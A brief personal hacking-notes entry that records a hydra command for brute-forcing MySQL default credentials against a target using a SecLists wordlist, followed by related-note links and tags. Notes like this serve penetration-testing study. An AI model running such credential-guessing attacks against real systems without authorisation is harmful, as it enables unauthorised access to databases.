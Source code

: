 # brute force default credentials mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

# Related

- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:

    #assorted #command #hacking #hydra
